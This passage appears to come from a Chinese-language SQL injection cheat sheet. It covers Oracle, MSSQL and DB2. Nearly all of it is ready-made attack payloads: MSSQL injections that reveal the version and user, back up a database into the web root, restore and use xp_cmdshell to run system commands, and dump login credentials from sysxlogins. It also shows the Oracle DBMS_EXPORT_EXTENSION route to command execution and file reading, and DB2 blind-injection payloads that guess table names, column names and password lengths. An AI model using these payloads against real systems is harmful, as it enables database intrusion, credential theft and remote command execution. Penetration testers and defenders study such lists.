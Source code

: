 * user 当前用户
* all_users 所有用户表
* all_tables 当前用户可访问的所有表
* `sys.v_$version` 版本信息表
* `substr()`
* `length()`
* `sign()` 函数根据某个值是0、正数还是负数，返回0、1、-1
* `decode(1=1,0,1,-1)` 第一个参数为表达式，当表达式的值等于参数2时，该函数返回参数3，否则返回参数4

#### 命令执行

通过注入 `SYS.DBMS_EXPORT_EXTENSION` 函数，在 Oracle 上创建 Java 包 LinuxUtil，里面两个函数， `runCMD` 用于执行系统命令， `readFile` 用于读取文件。

### 0103 MSSQL

#### 工具注入

* SQLmap
* SuperSQLinj

#### 手工注入

* `and db_name()>0` 返回的时连接的数据库名
* `and user>0` 作用时获取连接用户名
* `;backup database 数据库名 to disk=’c:\inetpub\wwwroot\1.db’;--` 将数据库备份到Web目录下面
* `and 1=(SELECT @@VERSION)--` 或着 `and 1=convert(int, @@VERSION)--`显示SQL 系统版本
* `and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype = ‘X’ AND name = ‘xp_cmdshell’)` 判断 xp_cmdshell 扩展存储过程是否存在
* `;exec master.dbo.sp_addextendedproc ‘xp_cmdshell’, ‘e:\inetput\web\xplog70.dll’;--` 恢复 xp_cmdshell 扩展存储的命令

#### 常用函数

* 数据库表：master..syslogins , master..sysprocesses
* 列名：name , loginname
* 当前用户：user , system_user , suser_sname() , is_srvrolemember(’sysadmin’)
* 数据库凭证：`SELECT user, password FROM master.dbo.sysxlogins`

#### 命令执行

使用 xp_cmdshell 存储过程执行操作系统命令

### 0104 DB2

#### 工具注入

* SQLmap
* SuperSQLinj

#### 手工注入

以下均是整型注入，采用折半法猜解

* 猜用户表数量：`and 0<(SELECT count(NAME) FROM SYSIBM.SYSTABLES WHERE CREATOR=USER)`
* 猜表长度：`and 3<(SELECT LENGTH(NAME) FROM SYSIBM.SYSTABLES WHERE name not in ('COLUMNS') fetch first 1 rows only)`
* 猜表第一个字符ASCII码：`and 3<(SELECT ASCII(SUBSTR(NAME,1,1)) FROM SYSIBM.SYSTABLES WHERE name not in ('COLUMNS') fetch first 1 rows only)`
* 猜表内列名数量：`and 1<(SELECT COUNT(COLNAME) FROM SYSCAT.columns WHERE TABNAME='TABLE')`
* 猜第一个列名的长度：`and 1<(SELECT LENGTH(COLNAME) FROM SYSCAT.columns WHERE TABNAME='TABLE' and colno=0)`
* 猜第一个列名第一个字符的ASCll码：`and 1<(SELECT ASCll(SUBSTR(COLNAME,1,1)) FROM SYSCAT.columns WHERE TABNAME='TABLE' and colno=0)`
* 依ID排降序，猜第一个PASSWD的长度：`and 0<(SELECT LENGTH(PASSWD) FROM TABLE ORDER BY ID DESC fetch first 1 rows only)`
